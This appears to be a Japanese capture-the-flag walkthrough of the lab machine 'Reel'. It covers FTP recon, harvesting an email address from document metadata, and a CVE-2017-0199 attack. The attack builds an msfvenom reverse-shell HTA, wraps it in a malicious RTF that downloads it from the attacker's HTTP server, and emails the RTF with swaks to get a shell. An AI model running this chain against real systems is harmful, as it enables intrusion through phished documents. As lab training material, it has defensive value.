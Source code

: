 # Recon

```
nmap --reason -Pn -T4 -sV -p- 10.10.10.77
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
22/tcp open  ssh     syn-ack ttl 127 OpenSSH 7.6 (protocol 2.0)
25/tcp open  smtp?   syn-ack ttl 127
```

ftpにアノニマスログインし、いくつかファイルがあったのでダウンロードする：

```
┌──(shoebill㉿shoebill)-[~]
└─$ ftp 10.10.10.77  
Connected to 10.10.10.77.
220 Microsoft FTP Service
Name (10.10.10.77:shoebill): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
05-28-18  11:19PM       <DIR>          documents
226 Transfer complete.
ftp> cd documents
ftp> dir
05-28-18  11:19PM                 2047 AppLocker.docx
05-28-18  01:01PM                  124 readme.txt
10-31-17  09:13PM                14581 Windows Event Forwarding.docx

ftp> get AppLocker.docx
ftp> get readme.txt
ftp> get "Windows Event Forwarding.docx"
```

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/FTP_Docs]
└─$ cat readme.txt 
please email me any rtf format procedures - I'll review and convert.

new format / converted documents will be saved here.
```

readme.txtの内容より、rtfファイルを送ればそれをレビューしてフォーマット変換するらしい。

rtfに関する脆弱性をググるとCVE-2017-0199が見つかった。

そのツールキットがgithubにあったのでそれを使う：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ git clone https://github.com/bhdresh/CVE-2017-0199.git
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ cd CVE-2017-0199.git
```

このツールキットで、悪意のあるhtaファイルをダウンロード・実行させるようなrtfファイルが作れる。

そこでまず、リバースシェルを起動するようなhtaファイルをつくる：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -f hta-psh -o shell.hta
```

ツールキットでrtfファイル（test.rtf）を作る：
```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ python cve-2017-0199_toolkit.py -M gen -t RTF -w test.rtf -u http://10.10.16.5:8000/shell.hta
Generating normal RTF payload.

Generated test.rtf successfull
```
ターゲットがこのrtfファイルを開くと、ローカル（10.10.16.5）の8000ポートで立っているHTTPサーバにアクセスが来て、shell.htaをダウンロード実行する。

さて、肝心の”送り先メールアドレス”について。次のように、Windows Event Forwarding.docx（Windows_Event_Forwarding.docxに改名した）のメタデータにメールアドレスがある：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ exiftool Windows_Event_Forwarding.docx
ExifTool Version Number         : 12.44
File Name                       : Windows_Event_Forwarding.docx
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2017:11:01 06:13:23+09:00
File Access Date/Time           : 2022:10:30 20:14:09+09:00
File Inode Change Date/Time     : 2022:10:30 20:11:30+09:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x82872409
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
Revision Number                 : 4
...
```

# initial shell

以上でエクスプロイト実行の準備が整った。

リバーシェルに対するリスナーをたてる：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ rlwrap nc -nvlp 4444
```

shell.htaとtest.rtfがあるディレクトリ上でHTTPサーバをたてる：
```                                                 
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ python3 -m http.server   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
`swaks`コマンドでメールを送る：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ swaks --to nico@megabank.com --from kail@shoebill.com --server 10.10.10.77 --header "test rtf" --body "check my rtf file" --attach ./test.rtf
```

これでユーザnicoのシェルがとれる：

![inishell](https://user-images.githubusercontent.com/85237728/198999395-7382a52b-278c-4873-82f7-6f86cb6e3a41.png)

